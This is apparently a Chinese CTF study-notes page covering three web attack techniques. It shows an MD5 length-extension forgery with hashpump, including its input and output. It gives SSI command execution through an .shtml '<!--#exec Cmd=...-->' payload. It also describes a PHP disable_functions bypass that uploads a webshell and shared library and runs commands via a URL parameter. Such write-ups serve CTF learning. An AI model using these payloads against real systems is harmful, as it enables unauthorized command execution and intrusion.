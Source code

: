 例如本题中的密文就是`secret_key`

目前掌握的的是`md5(secret_key+ "flag.txtscan")`的值,那么我们可以通过工具获得`md5(secret_key+ flag.txtscan+read)`的值

这样如果再从`action`中传 `scanread` 就可以成功执行`read`功能了

```
kali㉿kali)-[~/Desktop/HashPump]
└─$ hashpump   
Input Signature: d4bd0b631614327be0367efa305057e5
Input Data: flag.txtscan  (本来追加在secret_key后面的已知数据)
Input Key Length: 16  (secret_key的长度)
Input Data to Add: read  (为了计算新的sign值,我们希望添加的新数据)
aeccfcf28d2da89a3c8581a6c90d1842  (计算结果,新的sign值)
flag.txtscan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read  (新的secret_key后面的已知数据)

```



***

# shtml文件执行系统命令

`shtml`文件中写入如下格式就可以执行系统命令:

```
<!--#exec Cmd="命令"-->
例如:
<!--#exec Cmd="ls /"-->
```

例题见: [[BJDCTF2020]EasySearch](4f3ccb8a.html)



***

# 绕过php的disable_functions



本项目中有三个关键文件，`bypass_disablefunc.php`、`bypass_disablefunc_x64.so`、`bypass_disablefunc_x86.so`。

`bypass_disablefunc.php` 为命令执行` webshell`，提供三个 GET 参数：

(将`bypass_disablefunc.php`、`bypass_disablefunc_x64.so`传到目标后,访问`bypass_disablefunc.php`并传参来执行命令)

```
http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so
```

一是 `cmd` 参数，待执行的系统命令（如 `pwd`）；

二是 `outpath` 参数，保存命令执行输出结果的文件路径（如` /tmp/xx`），便于在页面上显示，另外该参数，你应注意 web 是否有读写权限、`web` 是否可跨目录访问、文件将被覆盖和删除等几点；
